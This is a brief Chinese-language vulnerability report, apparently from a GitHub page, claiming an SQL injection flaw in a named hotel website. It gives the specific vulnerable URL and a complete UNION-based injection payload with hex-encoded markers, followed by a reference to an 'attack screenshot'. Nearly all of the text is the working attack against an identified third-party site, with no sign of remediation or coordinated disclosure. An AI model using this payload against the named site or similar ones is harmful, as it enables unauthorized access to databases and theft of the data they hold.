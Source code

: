 #EMBRYO酒店网站存在SQL注入漏洞
漏洞出现:http://www.embryohotel.com/room-detail.php?id=1
Payload: id=-5476 UNION ALL SELECT NULL,NULL,CONCAT(0x71716b6a71,0x64556a4c4d4161445572766b49646a6a65485a4473516677746450534f777054454f5062644d6d78,0x7171706b71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--

攻击截图:
!(IMG_1.png)